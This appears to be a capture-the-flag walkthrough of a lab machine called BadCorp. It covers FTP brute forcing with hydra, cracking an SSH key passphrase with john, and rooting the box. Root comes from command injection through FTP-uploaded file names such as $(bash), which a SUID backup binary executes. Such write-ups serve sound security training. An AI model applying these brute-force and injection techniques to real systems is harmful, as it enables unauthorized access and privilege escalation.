 # BadCorp

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 192.168.160.133
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-13 13:28 +08
Nmap scan report for 192.168.160.133
Host is up (0.17s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

### Web Enumeration

The website was a corporate website:

<figure><img src="../../../.gitbook/assets/image (3956).png" alt=""><figcaption></figcaption></figure>

First thing I noticed was the **phone numbers**. Normally machines, I see numbers like +12 345 678. This was the first box I saw that included unique phone numbers. I took a look at their team:

<figure><img src="../../../.gitbook/assets/image (3878).png" alt=""><figcaption></figcaption></figure>

Again, phone numbers are unique here. This made me think about every little detail in the website, including the names of the users.&#x20;

There wasn't much more on the website, and we were just left with FTP and SSH.

### FTP Brute Force -> SSH Key

I took a look at this tweet regarding BadCorp:

{% embed url="https://twitter.com/offsectraining/status/1370149035059859459?lang=en" %}

To me, the 'insignificant information' was probably from the website. As such, I constructed wordlists based on the names of users and their phone numbers like this.

```
$ python2 username.py -n 'david williams' > user_word
$ cat pass_word                            
+23-34512435
2334512435
34512435
```

I then brute forced the FTP using `hydra` for each user and phone number, and eventually found one set of credentials that worked:

```
$ hydra -L user_word -P pass_word ftp://192.168.160.133
[21][ftp] host: 192.168.160.133   login: hoswald   password: 34566550
```

We can then login to FTP:

```
$ ftp 192.168.160.133                         
Connected to 192.168.160.133.
220---------- Welcome to Pure-FTPd [privsep] [TLS] ----------
220-You are user number 6 of 50 allowed.
220-Local time is now 00:40. Server port: 21.
220-This is a private system - No anonymous login
220 You will be disconnected after 15 minutes of inactivity.
Name (192.168.160.133:kali): hoswald 
331 User hoswald OK. Password required
Password: 
230 OK. Current directory is /
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> passive
Passive mode: off; fallback to active mode: off.
ftp> ls
200 PORT command successful
150 Connecting to port 50225
-rwxrwxr--    1 0          0                1766 Feb 24  2021 id_rsa
226-Options: -l 
226 1 matches total
```

This file was password encrypted:

```
$ cat id_rsa                   
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,689C848171117DE40F9DDDC1059582EC
```

We can crack this using `ssh2john.py` and `john`:

```
$ ssh2john id_rsa > ssh.john
$ john --wordlist=/usr/share/wordlists/rockyou.txt ssh.john
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
developer        (id_rsa)     
1g 0:00:00:00 DONE (2023-07-13 13:42) 25.00g/s 3754Kp/s 3754Kc/s 3754KC/s dewthedew..derbeder
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

<figure><img src="../../../.gitbook/assets/image (1178).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Backup SUID -> Reverse Engineering

I searched for SUID binaries within the machine and found one that stood out:

{% code overflow="wrap" %}
```
hoswald@badcorp:~$ find / -perm -u=s -type f  2>/dev/null
/usr/local/bin/backup
hoswald@badcorp:~$ file /usr/local/bin/backup
/usr/local/bin/backup: setuid ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=bef7543cc2b4b67931b5b549440ba5d76270edac, not stripped
hoswald@badcorp:~$ /usr/local/bin/backup
USAGE: backup <password> 
hoswald@badcorp:~$ /usr/local/bin/backup test
Wrong Password !!!
```
{% endcode %}

I didn't recognise this `backup` binary, so I downloaded it back to my machine and opened it up in `ghidra`.&#x20;

### Ghidra + Ltrace -> Command Injection

I first ran the binary with `ltrace`:

```
$ ltrace ./backup id
setuid(0)                                                = -1
strstr("id", "..")                                       = nil
strstr("id", "/")                                        = nil
strstr("id", "|")                                        = nil
strstr("id", "<")                                        = nil
strstr("id", ">")                                        = nil
strstr("id", "&")                                        = nil
strstr("id", " ")                                        = nil
strstr("id", "'")                                        = nil
strstr("id", "-")                                        = nil
strstr("id", "%")                                        = nil
strncpy(0x7fff99859cae, "id", 9)                         = 0x7fff99859cae
strcmp("eh\f\f\f\f\f\f", "|8\177\177{<~:")               = -23
puts("Wrong Password !!!"Wrong Password !!!
)                               = 19
+++ exited (status 0) +++
```

So it first makes us `root` and then checks for characters present. Afterwards, a basic `strcmp` is used to verify the password. The check for special characters seems to be a check for the bad characters:

```
$ ltrace ./backup '|8\177\177{<~:'
setuid(0)                                                = -1
strstr("|8\\177\\177{<~:", "..")                         = nil
strstr("|8\\177\\177{<~:", "/")                          = nil
strstr("|8\\177\\177{<~:", "|")                          = "|8\\177\\177{<~:"
puts("Bad character found !"Bad character found !
)                            = 22
strncpy(0x7ffe3e91560e, "|8\\177\\17", 9)                = 0x7ffe3e91560e
strcmp("p4P=;;P=7", "|8\177\177{<~:")                    = -12
puts("Wrong Password !!!"Wrong Password !!!
)                               = 19
+++ exited (status 0) +++
```

The bad characters don't include '$' and '()', opening up the possibility of command injection. Moving to `ghidra`, this binary prompts for a password before running the `check()` function to see if the password is correct, and then `copy()` if it is right:

<figure><img src="../../../.gitbook/assets/image (3484).png" alt=""><figcaption></figcaption></figure>

The `copy()` function takes an encrypted password and XOR's it with `0xc`:

<figure><img src="../../../.gitbook/assets/image (3482).png" alt=""><figcaption></figcaption></figure>

We can first grab the `pw` global variable from the binary:

<figure><img src="../../../.gitbook/assets/image (3116).png" alt=""><figcaption></figcaption></figure>

And then we can create a script in Python to decrypt this.&#x20;

```python
#!/usr/bin/python3
passwd = ''
cipher = bytes([0x3a, 0x7e, 0x3c, 0x7b, 0x7f, 0x7f, 0x38, 0x7c, 0x72])
b = bytes([0xc])
for x in reversed(cipher):
	ans = (x^0xc)
	passwd += chr(ans)

print (passwd)

$ python3 decrypt.py       
~p4ssw0r6
```

The first `~` character is not needed. We can then run the binary with the password:

```
hoswald@badcorp:~$ /usr/local/bin/backup p4ssw0r6
Create destination directory
FILE  id_rsa
ALL FILE COPYED IN /var/logs/hoswald/
```

We can move on to the `copy()` function now:

<figure><img src="../../../.gitbook/assets/image (1315).png" alt=""><figcaption></figcaption></figure>

All the binaries use their full path values, so no path hijacks here. However, this seems to use directories within `/var/logs` and `/home/FTP`. I was already thinking of command injection using subshells, and it seems that this is the exploit needed.&#x20;

We can use FTP to a few malicious files since we don't have write access over those directories:

```
ftp> put $(id)
local: $(id) remote: $(id)
229 Extended Passive mode OK (|||65519|)
150 Accepted data connection
     0        0.00 KiB/s 
226 File successfully transferred
```

This works!

<figure><img src="../../../.gitbook/assets/image (3716).png" alt=""><figcaption></figcaption></figure>

I then placed a file named `$(bash)` within the FTP directory, and it gave me a shell:

<figure><img src="../../../.gitbook/assets/image (3939).png" alt=""><figcaption></figcaption></figure>

This shell was pretty limited and couldn't give me any output. However, we can simply run `chmod u+s /bin/bash`. In another shell, we can then get a proper `root` shell easily:

<figure><img src="../../../.gitbook/assets/image (3491).png" alt=""><figcaption></figcaption></figure>

